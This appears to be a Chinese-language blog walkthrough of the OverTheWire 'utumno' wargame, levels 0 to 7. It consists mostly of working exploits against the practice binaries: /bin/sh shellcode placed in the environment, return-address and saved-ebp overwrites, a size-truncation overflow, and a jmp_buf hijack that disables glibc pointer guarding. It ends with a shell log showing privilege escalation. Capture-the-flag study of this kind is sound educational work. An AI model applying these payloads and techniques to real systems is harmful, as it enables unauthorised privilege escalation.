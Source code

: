 ```yaml
---
title: utumno
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

*   **utumno0**  
    和semtex4类似，这次的也是没有读权限。还是用xocopy把内容dump出来，elf地址用的是0x08048000。再用strings查看，发现类似是密码的内容

*   **utumno1**  
    会打开目录，检查包含的文件的文件名。必须要是以sh\_开头；然后漏洞在run函数里面，会把d\_name[3]的地址放到返回地址。所以把payload放在文件名sh_的后面即可。 

    把shellcode放环境变量，然后payload是跳转到那里 
    
    <pre>$ touch `perl -e 'print "1/sh_" . "\xb8\xf3\xd8\xff\xff\xff\xe0"'`
         $ /utumno/utumno1 1</pre>
    
*   **utumno2**  
    有点类似于之前的vortex4，也是要求argc为0，只能把payload放到环境变量里。argv={NULL},所以argv+40就是env[9]。我们把shellcode放到env[0]，env[9]放shellcode的地址，那么strcpy就会把返回地址重写。 
    在构造env时注意，在结束之前都不要包含NULL，否则会被认为env结束而忽略掉后面的内容 
        
{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

int main (int argc, char *args[]) {
    char *env="ABCDABCDABCDABCDABCDABCD" "\xa9\xdf\xff\xff";
    char *shellcode = "SHELLCODE=\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
    char *t = ""; 
    char *argv[] = {NULL};
    char *envp[] = {shellcode,t,t,t,t,t,t,t,t,env,NULL};
    //execve("././././envAddr", argv, envp);
    execve("/utumno/utumno2", argv, envp);
}
{% endhighlight %}
        
*   **utumno3**  
    这里会一个个地读字符，在v2那里可以做到修改返回地址。为此，我们找到v2和返回地址的距离是0x2c，那么往v1里填的字符就应该是0x2c^0, 0x2d^3, 0x2e^6, 0x2f^9。我试了invoke shell，但没反应，加上cat也不行；所以只好用读文件的shellcode了  
    <pre>$ perl -e 'print "\x2c\xc8\x2e\xd8\x28\xff\x26\xff"' | /utumno/utumno3</pre>
            
*   **utumno4**  
    memcpy当然存在overflow，因为复制的大小是我们提供的；虽然对大小做了个检查，但是是把大小存到short里面再比较的。由于起始位置与返回地址相距0xff0e，我们只需提供大小为0x10000，那么就可以覆盖到返回地址，并且大小检查也符合  
    <pre>$ /utumno/utumno4 65536 `perl -e 'print "A"x65294 . "\xef\xd8\xff\xff"'`</pre>
                
*   **utumno5**  
    和utumno2类似，不过问题在函数hihi里。这次检查了字符串的长度，最多只能覆盖保存的ebp，但通过修改ebp，可以使main函数返回时的`leave`跳到错误的地方，进而返回地址用我们提供的地址 

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

int main (int argc, char *args[]) {
    char *env = "\xfe\xfe\xfe\xfe\xb1\xdf\xff\xff" "AAAAAAAA" "\xf8\xdd\xff\xff";
    char *shellcode = "SHELLCODE=\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
    char *t = "";
    char *argv[] = {NULL};
    char *envp[] = {shellcode,t,t,t,t,t,t,t,t,env,NULL};
    //execve("././././envAddr", argv, envp);
    //execve("././././ebpAddr", argv, envp);
    execve("././././utumno5", argv, envp);
}
{% endhighlight %}
                    
*   **utumno6**  
    malloc之后没有free，这点就很奇怪。于是通过v5=-1，可以修改v3的值为返回地址，那么接下来strcpy就可以修改返回地址了。  
    <pre>$ /utumno/utumno6 -1 0xffffd6fc `perl -e 'print "\xf4\xd8\xff\xff"'`</pre>
                        
*   **utumno7**  
    由于用的是exit，所以不能通过strcpy修改返回地址。由于jmp_buf保存在栈上，我们可以修改这个。 

    具体地，setjmp会保存寄存器 
                            
{% highlight objdump %}
(gdb) x/20i setjmp
   0xf7e4f280 <setjmp>: mov    0x4(%esp),%eax
   0xf7e4f284 <setjmp+4>:       mov    %ebx,(%eax)
   0xf7e4f286 <setjmp+6>:       mov    %esi,0x4(%eax)
   0xf7e4f289 <setjmp+9>:       mov    %edi,0x8(%eax)
   0xf7e4f28c <setjmp+12>:      lea    0x4(%esp),%ecx
   0xf7e4f290 <setjmp+16>:      xor    %gs:0x18,%ecx
   0xf7e4f297 <setjmp+23>:      rol    $0x9,%ecx
   0xf7e4f29a <setjmp+26>:      mov    %ecx,0x10(%eax)
   0xf7e4f29d <setjmp+29>:      mov    (%esp),%ecx
   0xf7e4f2a0 <setjmp+32>:      xor    %gs:0x18,%ecx
   0xf7e4f2a7 <setjmp+39>:      rol    $0x9,%ecx
   0xf7e4f2aa <setjmp+42>:      mov    %ecx,0x14(%eax)
   0xf7e4f2ad <setjmp+45>:      mov    %ebp,0xc(%eax)
   0xf7e4f2b0 <setjmp+48>:      push   $0x1
   0xf7e4f2b2 <setjmp+50>:      pushl  0x8(%esp)
   0xf7e4f2b6 <setjmp+54>:      call   0xf7e4f230 <__sigjmp_save>
{% endhighlight %}
                            
也就是说，依次保存ebx,esi,edi,ebp,处理过的esp,处理过的eip。由于处理时会和$gs:0x18做xor，这就导致结果不确定了……我试了下，确实每次运的时候，第5、6个的值都不一样。
                            
后来还是在网上搜了之后才发现的。ld.so的manual里是这么说的：
                        
> LD\_POINTER\_GUARD  
> (glibc since 2.4) Set to 0 to disable pointer guarding. Any other value enables pointer guarding, which is also the default.  
> Pointer guarding is a security mechanism whereby some pointers to code stored in writable program memory (return addresses saved by  
> setjmp(3) or function pointers used by various glibc internals) are mangled semi-randomly to make it more difficult for an attacker  
> to hijack the pointers for use in the event of a buffer overrun or stack-smashing attack. 
                        
也就是说，我们需要先 
                            
<pre>$export LD_POINTER_GUARD=0</pre>
                        
这样，每次jmp_buf里的esp和eip就不随机了，但rotation还是有的。我们用python来计算rotation 
                        
{% highlight python %}
rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))
{% endhighlight %}
                            

由于跳转到shellcode后，要保证栈可读可写，我们让esp还是恢复到正确的值，只是eip到环境变量里的shellcode。通过`jobs -l`获得进程的pid，再用`kill -10 pid`来发送信号。要发两次，第一次后调用strcpy，覆盖eip，等第二次信号时，跳到我们给的eip。此外，可能是jump的原因，两次信号要用不同的，正好他设了两个handler，10和12。 
                            
{% highlight bash %}
utumno7@melinda:/tmp/nabla$ /utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
^Z
[1]+  Stopped                 /utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
utumno7@melinda:/tmp/nabla$ jobs -l
[1]+  1987 Stopped                 /utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
utumno7@melinda:/tmp/nabla$ kill -10 1987
utumno7@melinda:/tmp/nabla$ fg
/utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
^Z
[1]+  Stopped                 /utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
utumno7@melinda:/tmp/nabla$ kill -12 1987
utumno7@melinda:/tmp/nabla$ fg
/utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
$ id
uid=16007(utumno7) gid=16007(utumno7) euid=16008(utumno8) groups=16008(utumno8),16007(utumno7)
{% endhighlight %}
